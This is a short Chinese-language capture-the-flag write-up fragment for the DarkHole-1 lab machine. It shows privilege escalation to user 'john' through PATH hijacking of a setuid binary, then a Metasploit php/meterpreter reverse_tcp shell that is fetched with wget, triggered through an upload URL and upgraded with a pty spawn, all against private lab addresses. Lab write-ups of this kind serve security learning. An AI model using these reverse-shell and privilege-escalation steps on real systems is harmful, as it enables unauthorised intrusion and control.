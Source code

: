 **提权到john**
又学习到了新姿势
```
echo "/bin/bash" > /tmp/id
chmod 777 /tmp/id
export PATH=/tmp:$PATH
./toto
```

但我蚁剑上面行不通
跟wp试试msf反弹shell

步骤:
- kali `msfvenom`利用`php/meterpreter/reverse_tcp`生成shell.php
![img](DarkHole-1/images/image-11.png)
php写的比较严谨 鲁棒性较强 但也没怎么加免杀

- python起http服务 蚁剑upload目录 wget下载shell.php
- kali `msfdb`开监听 设置好exploit的option
  - `msfdb run`
  - `use exploit/multi/handler`
  - `show options`
  - `set LHOST 192.168.136.146`
  - `set payload php/meterpreter/reverse_tcp`
  - `exploit`
- 网页访问 `http://192.168.136.151/upload/shell.php` kali监听就能上线了
- msf起shell后python开一个交互式终端 `python3 -c 'import pty;pty.spawn("/bin/bash")'`

![img](DarkHole-1/images/image-10.png)
